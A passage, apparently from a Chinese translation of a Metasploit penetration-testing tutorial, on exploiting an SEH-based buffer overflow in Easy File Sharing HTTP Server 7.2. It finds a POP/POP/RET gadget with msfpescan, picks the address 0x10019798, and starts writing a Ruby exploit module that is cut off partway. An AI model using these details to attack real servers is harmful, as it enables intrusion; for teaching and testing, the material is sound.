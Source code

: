 我们可以使用`msfpescan`的`-s`开关轻松找到`ImageLoad.dll`文件中的 POP/POP/RET 指令序列。让我们使用它。

![](img/5ad5e795-2155-47f0-b223-6c82bd0e9d4d.png)

让我们使用一个安全地址，消除可能导致 HTTP 协议问题的地址，比如连续重复的零，如下：

![](img/71da2ab5-e7dc-4092-9ce3-df3e361b7481.png)

我们将使用`0x10019798`作为 POP/POP/RET 地址。现在我们已经有了撰写利用程序的两个关键组件，即偏移量和要加载到 catch 块中的地址，即我们的 POP/POP/RET 指令的地址。我们只需要短跳转的指令，这将被加载到下一个 SEH 记录的地址，这将帮助我们跳转到 shellcode。Metasploit 库将使用内置函数为我们提供短跳转指令。

# 编写 Metasploit SEH 利用模块

现在我们已经有了利用目标应用程序的所有重要数据，让我们继续在 Metasploit 中创建一个利用模块，如下：

```
class MetasploitModule < Msf::Exploit::Remote 

  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 
  include Msf::Exploit::Seh 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'Easy File Sharing HTTP Server 7.2 SEH Overflow', 
      'Description'    => %q{ 
        This module demonstrate SEH based overflow example 
      }, 
      'Author'         => 'Nipun', 
      'License'        => MSF_LICENSE, 
      'Privileged'     => true, 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread', 
     'RPORT' => 80, 
```